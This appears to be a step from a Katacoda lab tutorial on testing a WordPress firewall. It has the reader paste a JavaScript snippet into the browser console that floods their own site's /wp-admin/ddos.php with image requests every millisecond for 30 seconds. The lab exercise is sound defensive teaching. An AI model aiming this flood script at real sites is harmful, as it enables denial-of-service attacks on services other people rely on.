



## **Enforce the DDos to test the firewall**
---

### **Step 1:** 

Access your own WordPress website in Google Chrome using the link:
`https://[[HOST_SUBDOMAIN]]-8000-[[KATACODA_HOST]].environments.katacoda.com `{{copy}}

<br></br>

### **Step 2:** 
Right click and click `inspect` button to open the inspect of the Google 


<br></br>

### **Step 3:** 
click the Console button to access the console:


### **Step 4:** 
Copy the following command and paste it in the console and click enter:


```shfunction imgflood() {
  let URI = '/wp-admin/ddos.php?'
  let pic = new Image()
  let rand = Math.floor(Math.random() * 1000)
  pic.src = window.location.origin+URI+rand+'=val'
}

let ddosTimer = setInterval(imgflood, 1); //Run it every 1 ms

setTimeout(() => clearInterval(ddosTimer), 30000); //Stop running in 30 sec
```
{{copy}}




